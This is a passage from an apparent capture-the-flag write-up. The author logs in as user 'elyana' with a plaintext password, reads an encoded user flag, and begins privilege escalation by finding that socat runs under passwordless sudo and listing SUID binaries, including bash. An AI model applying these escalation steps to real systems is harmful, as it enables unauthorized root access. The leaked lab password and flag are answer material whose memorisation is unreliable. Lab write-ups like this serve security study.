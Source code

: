 ah yes I love using find...its my favorite command
that was an extra step but hey now we got ssh too

```bash
su elyana
Password: E@syR18ght

bash-4.4$ cd /home/elyana
cd /home/elyana
bash-4.4$ cat user.txt
cat user.txt
aGFoYSBiYXppbmdhISB5b3UgZ290IHRyaWNrZWQh

```

Decode the flag to get it to the right format

## Privilege Escalation

The classics

```bash
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
```
```bash
bash-4.4$ find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null
/bin/mount
/bin/ping
/bin/fusermount
/bin/su
/bin/bash
/bin/chmod
/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/lxc
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/socat
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
```
socat acting very sus right now
